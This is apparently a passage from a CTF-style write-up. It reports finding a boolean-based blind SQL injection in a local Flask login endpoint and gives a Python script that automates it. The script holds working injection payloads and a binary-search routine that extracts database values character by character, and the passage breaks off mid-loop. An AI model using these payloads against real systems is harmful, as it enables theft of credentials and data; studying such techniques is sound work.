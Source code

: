             return make_request(req_data)
    
    app.run(debug = True)

after doing some fuzzing i found that the application is vulnerable to an blind sql injection boolean-based , so i made a python scripts to automate the exploit.

    import requests
    import re
    from StringIO import StringIO
    from pycurl import *
    import os
    
    
    url = "http://127.0.0.1:5000/login"
    payload = {
        "user":"",
        "pass":"xxxx",
        "cmd":"getTemp"
    }
    headers = {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", 
    "User-Agent": "Dalvik/2.1.0 (Linux; U; Android 8.1.0; Redmi 6A MIUI/V9.6.18.0.OCBMIFD)", 
    "Connection": "close", 
    "Accept-Encoding": "gzip, deflate"
    }
    
    
    def check(data):
        print data.elapsed.total_seconds()
        if data.elapsed.total_seconds() > 1:
            return False
        else:
            return True
    
    def check2(data):
        # print data.text
        return re.search("Invalid username or password", data.text)
    
    def blind(kolom,table):
        passwd = ""
        idx = 1
    
        while (True):
            lo = 1
            hi = 255
            temp = -1
            while(lo <= hi):
                mid = (lo + hi) / 2         
                # payload["user"] = "' or (SELECT CASE when (ascii(substr({},{},1)) <= {}) THEN 1 ELSE sleep(1) END {}) or '".format(str(kolom),str(idx),str(mid),str(table))
                payload["user"] = "' or (SELECT CASE when (select ascii(substr({},{},1)) {}) <= {} THEN (select 1) ELSE (select 1 union select 2) END) or '".format(str(kolom),str(idx),str(table),str(mid))
                # payload["user"] = "' or (select if(true, (select 1), (select 1 union select 2))) or '"
                res = requests.post(url,data=payload, headers=headers)
                # print payload["user"]
                if check2(res):
                   hi = mid-1
                   temp = mid
                else: